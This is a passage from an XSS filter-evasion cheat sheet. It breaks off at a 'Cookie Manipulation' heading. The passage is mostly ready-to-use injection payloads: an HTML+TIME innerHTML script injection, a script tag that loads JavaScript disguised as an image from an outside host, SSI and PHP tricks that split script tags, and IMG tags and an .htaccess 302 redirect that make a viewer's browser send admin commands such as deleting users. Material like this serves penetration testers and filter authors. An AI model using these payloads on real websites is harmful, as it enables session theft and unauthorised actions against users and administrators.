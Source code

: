 ````
This is how Grey Magic hacked Hotmail and Yahoo!. This only works in Internet Explorer and Netscape 8.1 in IE rendering engine mode and remember that you need to be between HTML and BODY tags for this to work:

```
<HTML><BODY>
<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
<?import namespace="t" implementation="#default#time2">
<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">
</BODY></HTML>
```

Assuming you can only fit in a few characters and it filters against `.js`
--------------------------------------------------------------------------

You can rename your JavaScript file to an image as an XSS vector:

`<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>`

SSI (Server Side Includes)
--------------------------

This requires SSI to be installed on the server to use this XSS vector. I probably don’t need to mention this, but if you can run commands on the server there are no doubt much more serious issues:

`<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://xss.rocks/xss.js></SCRIPT>'"-->`

PHP
---

Requires PHP to be installed on the server to use this XSS vector. Again, if you can run any scripts remotely like this, there are probably much more dire issues:

```
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>
```

IMG Embedded Commands
---------------------

This works when the webpage where this is injected (like a web-board) is behind password protection and that password protection works with other commands on the same domain. This can be used to delete users, add users (if the user who visits the page is an administrator), send credentials elsewhere, etc…. This is one of the lesser used but more useful XSS vectors:

`<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">`

### IMG Embedded Commands part II

This is more scary because there are absolutely no identifiers that make it look suspicious other than it is not hosted on your own domain. The vector uses a 302 or 304 (others work too) to redirect the image back to a command. So a normal `<IMG SRC="httx://badguy.com/a.jpg">` could actually be an attack vector to run commands as the user who views the image link. Here is the .htaccess (under Apache) line to accomplish the vector (thanks to Timo for part of this):

`Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser`

Cookie Manipulation
-------------------

````